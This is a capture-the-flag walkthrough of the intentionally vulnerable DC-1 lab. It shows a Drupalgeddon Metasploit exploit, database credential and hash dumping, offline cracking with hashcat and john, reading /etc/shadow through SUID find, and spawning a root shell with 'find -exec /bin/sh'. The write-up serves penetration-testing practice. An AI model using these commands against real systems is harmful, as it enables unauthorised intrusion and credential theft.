DC-1 is an intentionally vulnerable machine created for learning and practicing penetration testing. It is designed with beginners in mind, but the difficulty ultimately depends on your technical knowledge, methodology, and ability to adapt.

Successful exploitation requires basic Linux proficiency, confidence with the command line, and familiarity with standard penetration-testing tools commonly found in Kali Linux or Parrot Security OS.

Multiple attack paths exist to achieve root access. Five flags are scattered throughout the system, primarily intended to guide beginners by providing hints along the way. The final objective is to obtain and read the flag located in root’s home directory. Root login is not strictly required, but root privileges are.

Experienced players may bypass most flags and escalate privileges directly. Beginners should expect to encounter unfamiliar techniques and vulnerabilities; however, all required knowledge is publicly available. Careful enumeration and targeted research should be sufficient to complete the challenge.

# Scanning

I scanned every port `-p-` and ran default scripts with `-sC` as usual. I use the `-A` switch to enable OS detection, version detection, script scanning and traceroute. Here is the scan result:

Find the target IP's

sudo netdiscover

sudo arp-scan --localnet



.







We have SSH, which is not vulnerable and it looks like we have a Drupal 7 CMS installation too. I tried `nikto` and `dirb`, but they didn’t pick up anything useful. So, I went on to check out the site and searched for version numbers. I also tried `admin - admin` on the login panel, but no luck.

# Getting access

Some Drupal sites are vulnerable to drupalgeddon, which is basically an SQL injection vulnerability disclosed back in late 2014. I fired up my Metasploit console and searched for `drupal`.



You can find more about this module on rapid7’s site: <ins>https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon</ins> I set the `rhosts` variable and simply typed `exploit`.







This was easy, right? I typed `shell` to conveniently investigate the files and directories on the server.

```
meterpreter > shell
Process 3110 created.
Channel 0 created.
ls -la
total 188
drwxr-xr-x  9 www-data www-data  4096 Feb 19 23:45 .
drwxr-xr-x 12 root     root      4096 Feb 19 23:10 ..
-rw-r--r--  1 www-data www-data   174 Nov 21  2013 .gitignore
-rw-r--r--  1 www-data www-data  5767 Nov 21  2013 .htaccess
-rw-r--r--  1 www-data www-data  1481 Nov 21  2013 COPYRIGHT.txt
-rw-r--r--  1 www-data www-data  1451 Nov 21  2013 INSTALL.mysql.txt
-rw-r--r--  1 www-data www-data  1874 Nov 21  2013 INSTALL.pgsql.txt
-rw-r--r--  1 www-data www-data 17861 Nov 21  2013 INSTALL.txt
-rwxr-xr-x  1 www-data www-data 18092 Nov  1  2013 LICENSE.txt
-rw-r--r--  1 www-data www-data  8191 Nov 21  2013 MAINTAINERS.txt
-rw-r--r--  1 www-data www-data  5376 Nov 21  2013 README.txt
-rw-r--r--  1 www-data www-data  9642 Nov 21  2013 UPGRADE.txt
-rw-r--r--  1 www-data www-data  6604 Nov 21  2013 authorize.php
-rw-r--r--  1 www-data www-data   720 Nov 21  2013 cron.php
-rw-r--r--  1 www-data www-data    52 Feb 19 23:20 flag1.txt
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 includes
-rw-r--r--  1 www-data www-data   529 Nov 21  2013 index.php
-rw-r--r--  1 www-data www-data   703 Nov 21  2013 install.php
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 misc
drwxr-xr-x 42 www-data www-data  4096 Nov 21  2013 modules
drwxr-xr-x  5 www-data www-data  4096 Nov 21  2013 profiles
-rw-r--r--  1 www-data www-data  1561 Nov 21  2013 robots.txt
drwxr-xr-x  2 www-data www-data  4096 Nov 21  2013 scripts
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 sites
drwxr-xr-x  7 www-data www-data  4096 Nov 21  2013 themes
-rw-r--r--  1 www-data www-data 19941 Nov 21  2013 update.php
-rw-r--r--  1 www-data www-data  2178 Nov 21  2013 web.config
-rw-r--r--  1 www-data www-data   417 Nov 21  2013 xmlrpc.php
```

The first flag is right in front of us, which contains the following hint:

> *Every good CMS needs a config file — and so do you.*

The goal was clear; I had to find a juicy config file. I just freely explored the directory to see what I could find. In the `sites/default` directory, there was a `settings.php` file.








array (  
      'database' => 'drupaldb',  
      'username' => 'dbuser',  
      'password' => 'R0',  
      'host' => 'localhost',  
      'port' => '',  
      'driver' => 'mysql',  
      'prefix' => '',


At the beginning of the file, there was a comment that contained the second flag, and below that, I was presented with the username and password for the database.

In order to log in to the database, we have to have a tty or pseudo-tty shell. At the moment, we have a very limited shell. Python was installed on the machine and all I had to do was:

python -c 'import pty; pty.spawn ("/bin/sh")'



I had everything to log in to the MySQL database. I looked at the databases and selected the `drupaldb`.

not: if you forget to type, you can add after





Before making any queries, we have to know the table names. The result is quite big, but I focused on the important one (the `users` table).

use drupaldb; show tables;



select\*from user;

```
mysql> show tables;
+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter                      |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+
80 rows in set (0.00 sec)mysql>
```

# Dumping database hashes

They ran the following query to print out every entry in that specific table. I had to cut the actual result because it was too long.

select\*from user;

```
mysql> select * from users;| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR 
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg 3 rows in set (0.00 sec)3 rows in set (0.00 sec)
```

Well, Drupal is also known to have very secure hashes. Are they secure enough? I let my 1070 TI GPU determine that. I downloaded `hashcat` to my Windows PC and the `rockyou.txt` word list.

hashcat -m 7900 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR '/home/kali/Desktop/rockyou.txt'

```
$ ./hashcat64.exe -m 7900 hashes.txt rockyou.txt
hashcat (v5.1.0) starting...OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1070 Ti, 2048/8192 MB allocatable, 19MCUHashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1Applicable optimizers:
* Zero-Byte
* Uses-64-BitMinimum password length supported by kernel: 0
Maximum password length supported by kernel: 256Watchdog: Temperature abort trigger set to 90cDictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 2 secs$S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR:53cr3t
Approaching final keyspace - workload adjusted.Session..........: hashcat
Status...........: Exhausted
Hash.Type........: Drupal7
Hash.Target......: hashes.txt
Time.Started.....: Fri Mar 08 09:19:57 2019 (7 mins, 52 secs)
Time.Estimated...: Fri Mar 08 09:27:49 2019 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    36639 H/s (2.15ms) @ Accel:128 Loops:32 Thr:64 Vec:1
Recovered........: 2/3 (66.67%) Digests, 2/3 (66.67%) Salts
Progress.........: 43033152/43033152 (100.00%)
Rejected.........: 0/43033152 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:16352-16384
Candidates.#1....: $HEX[284d6f75746f6e] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Temp: 69c Fan: 47% Util: 96% Core:1809MHz Mem:3802MHz Bus:16
```

I didn’t have to wait too long for the admin’s password. The password was `53cr3t`. I logged in and under the content menu, I found the third flag.



> *Special PERMS will help FIND the passwd — but you’ll need to -exec that command to work out how to get what’s in the shadow.*

# Find with SUID

I used the well-known `LinEnum.sh` script to get a better grasp of the system and possibly confirm that find command with special permissions. The interesting part from the output was this:

```
[+] Possibly interesting SUID files: 
-rwsr-xr-x 1 root root 162424 Jan 6 2012 /usr/bin/find
```

SETUID and SETGID are Unix access rights flags that allow users to run an executable with the permissions of the executable’s owner or group respectively and to change behavior in directories. They are often used to allow users on a computer system to run programs with temporarily elevated privileges in order to perform a specific task.

In this case, we don’t have to be root to execute commands as root. The hint or flag said that it helps to “find” the passwd, so here is how I printed out the `passwd` file:

```
find / -name passwd -exec cat {} \;
#
# The PAM configuration file for the Shadow `passwd' service
#<ins>@include</ins> common-passwordroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
flag4:x:1001:1001:Flag4,,,:/home/flag4:/bin/bash
```

# Cracking another hash

I needed the shadow file to crack the `flag4` user password. I achieved this with the exact same command, except the file name obviously.

**find / name shadow -exec cat {} \\;**

is a powerful Linux command often used during penetration testing or system administration. Here's a breakdown of what each part means:

* * *

### 🔍 Command Explanation:

#### ✅ `find /`

- Starts a **recursive search** from the root directory `/`
    
- This means it will look through **every directory** on the system
    

#### ✅ `-name shadow`

- Looks for a file **named exactly `shadow`**
    
- This is usually `/etc/shadow` – the file that stores **hashed passwords** on Linux systems
    

#### ✅ `-exec cat {} \;`

- For **each file found** (represented by `{}`), it will run the command:
    
- The `\;` ends the `-exec` clause (escaped because the shell would interpret `;` otherwise)
    

* * *

### 🔐 Why is `/etc/shadow` important?

- It stores **hashed passwords** for user accounts
    
- **Only root** or privileged users can normally read this file
    
- If you can read it, you can try to **crack password hashes** offline
    

```
find / -name shadow -exec cat {} \;
root:$6$rhe3rFqk$NwHzwJ4H7abOFOM67.Avwl3j8c05rDVPqTIvWg8k3yWe99pivz/96.K7IqPlbBCmzpokVmn13ZhVyQGrQ4phd/:17955:0:99999:7:::
daemon:*:17946:0:99999:7:::
bin:*:17946:0:99999:7:::
sys:*:17946:0:99999:7:::
sync:*:17946:0:99999:7:::
games:*:17946:0:99999:7:::
man:*:17946:0:99999:7:::
lp:*:17946:0:99999:7:::
mail:*:17946:0:99999:7:::
news:*:17946:0:99999:7:::
uucp:*:17946:0:99999:7:::
proxy:*:17946:0:99999:7:::
www-data:*:17946:0:99999:7:::
backup:*:17946:0:99999:7:::
list:*:17946:0:99999:7:::
irc:*:17946:0:99999:7:::
gnats:*:17946:0:99999:7:::
nobody:*:17946:0:99999:7:::
libuuid:!:17946:0:99999:7:::
Debian-exim:!:17946:0:99999:7:::
statd:*:17946:0:99999:7:::
messagebus:*:17946:0:99999:7:::
sshd:*:17946:0:99999:7:::
mysql:!:17946:0:99999:7:::
flag4:$6$Nk47pS8q$vTXHYXBFqOoZERNGFThbnZfi5LN0ucGZe05VMtMuIFyqYzY/eVbPNMZ7lpfRVc0BYrQ0brAhJoEzoEWCKxVW80:17946:0:99999:7:::
```

I copied this information into a text file and ran `john` on it to crack the hashes. I have successfully cracked the `flag4` user password.



```
▲ ~/Downloads john shadow.txt --show
flag4:orange:17946:0:99999:7:::
1 password hash cracked, 1 left
```

# 

root:$6$rhe3rFqk\$NwHzwJ4H7abOFOM67.Avwl3j8c05rDVPqTIvWg8k3yWe99pivz/96.K7IqPlbBCmzpokVmn13ZhVyQGrQ4phd/:17955:0:99999:7:::

to find cracked hashes withy john

cat ~/.john/john.pot

or

john --show hashfilename(hashes.txt)



# Access via SSH

I managed to log in via SSH using these credentials and read the fourth flag in the home directory.

```
▲ ~/Downloads ssh flag4@192.168.1.45
flag4@192.168.1.45's password:
Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Mar  7 08:52:13 2019 from kali
flag4@DC-1:~$ ls -la
total 28
drwxr-xr-x 2 flag4 flag4 4096 Mar  7 18:26 .
drwxr-xr-x 3 root  root  4096 Feb 19 23:51 ..
-rw------- 1 flag4 flag4  600 Mar  7 19:24 .bash_history
-rw-r--r-- 1 flag4 flag4  220 Feb 19 23:25 .bash_logout
-rw-r--r-- 1 flag4 flag4 3392 Feb 19 23:25 .bashrc
-rw-r--r-- 1 flag4 flag4  125 Feb 19 23:28 flag4.txt
-rw-r--r-- 1 flag4 flag4  675 Feb 19 23:25 .profile
flag4@DC-1:~$ cat flag4.txt
Can you use this same method to find or access the flag in root?Probably. But perhaps it's not that easy.  Or maybe it is?
flag4@DC-1:~$
```

> *Can you use this same method to find or access the flag in root? Probably. But perhaps it’s not that easy. Or maybe it is?*

# Popping a root shell

Since I found the find command with root SUID set, I could easily read the final flag and consider this challenge done. I wanted to take these extra steps to fully compromise the system and not just go for root access immediately, but this time has come.

```
flag4@DC-1:~$ find . -exec '/bin/sh' \; 
# whoami 
root
```

Finally, I went to the root directory to acquire the final flag, which was:

```
# cd /root
# ls
thefinalflag.txt
# cat thefinalflag.txt
Well done!!!!Hopefully, you've enjoyed this and learned some new skills.You can let me know what you thought of this little journey
by contacting me via Twitter - <ins>@DCAU7</ins>
```
